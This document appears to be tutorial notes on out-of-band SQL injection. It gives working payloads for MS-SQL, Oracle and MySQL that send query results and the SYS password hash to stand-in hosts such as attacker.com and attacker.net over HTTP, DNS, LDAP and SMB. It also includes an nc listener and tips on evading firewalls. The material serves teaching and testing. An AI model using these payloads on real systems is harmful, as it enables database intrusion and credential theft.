 # Using an Out-of-Band Channel

When an application **neither returns results** of injected queries **nor displays error messages**, it may appear that SQL injection is unexploitable. However, attackers can still confirm injection and extract data using **out-of-band (OOB) channels**.

---

## **Blind SQL Injection with Executed Queries**

Even without seeing query results:
- You may inject **subqueries** to execute additional logic.
- A **login form** can be exploited using concatenation:
  ```sql
  foo' || (SELECT 1 FROM dual WHERE (SELECT username FROM all_users WHERE username = 'DBSNMP') = 'DBSNMP')--
  ```

- This query will **fail the login** but still execute the subquery.
- The goal: find a channel to receive this result externally.

---

## **Batch Query Injection (MS-SQL Specific)**

- Batch queries allow executing a second independent query.
- Syntax:
  ```sql
  '; SELECT something; --
  ```
- You still need an external way to see the result.

---

## **Out-of-Band Channels for Data Retrieval**

These techniques **leak data outside** the web app, often via **network requests**.

### **MS-SQL**

**`OpenRowSet`**:
```sql
INSERT INTO OPENROWSET(
  'SQLOLEDB',
  'DRIVER={SQL Server};SERVER=attacker.com,80;UID=sa;PWD=pass',
  'SELECT * FROM foo') VALUES (@@version)
```
- Sends data to attacker via outbound SQL connection.
- Choose **commonly open ports (e.g., 80)** to evade firewall restrictions.

---

### **Oracle**

#### **`UTL_HTTP`**
Sends HTTP requests with data embedded in the URL:
```sql
'||UTL_HTTP.request('http://attacker.net/'||(SELECT username FROM all_users WHERE ROWNUM=1))--
```

**Listener:**
```bash
nc -nLp 80
```

#### **`UTL_INADDR`**
Performs **DNS lookups**:
```sql
'||UTL_INADDR.GET_HOST_NAME((SELECT password FROM dba_users WHERE name='SYS')||'.attacker.net')--
```
- Results in:
  ```
  DCB748A5BC5390F2.attacker.net
  ```
- More likely to succeed than HTTP due to **corporate DNS rules**.

#### **`UTL_SMTP`** – Send stolen data via email.

#### **`UTL_TCP`** – Send/receive data over arbitrary TCP sockets.

> **NOTE**: From **Oracle 11g onwards**, ACLs restrict these packages by default.
Use:
```sql
SYS.DBMS_LDAP.INIT((SELECT password FROM sys.user$ WHERE name='SYS')||'.attacker.net', 80)
```

---

### **MySQL**

**`SELECT ... INTO OUTFILE`**:
```sql
SELECT * INTO OUTFILE '\\\\attacker.net\\share\\output.txt' FROM users;
```
- Requires attacker to run an **SMB server** that allows anonymous write.
- Validate with a **sniffer** if connections are initiated but file not received.

---

## **Leveraging the Operating System**

Once command execution is achieved:
- Use OS-level commands like `tftp`, `mail`, or `telnet`.
- Write stolen data to **web root** for browser-based retrieval.
- Covered in detail in the **"Beyond SQL Injection"** section.

---

## **TIP**

Even when no data is visibly returned:
- Look for **network-side effects**.
- **DNS**, **HTTP**, and **SMB** are the most reliable OOB vectors.
- These methods often succeed in **segmented networks** and **firewalled environments**.

---
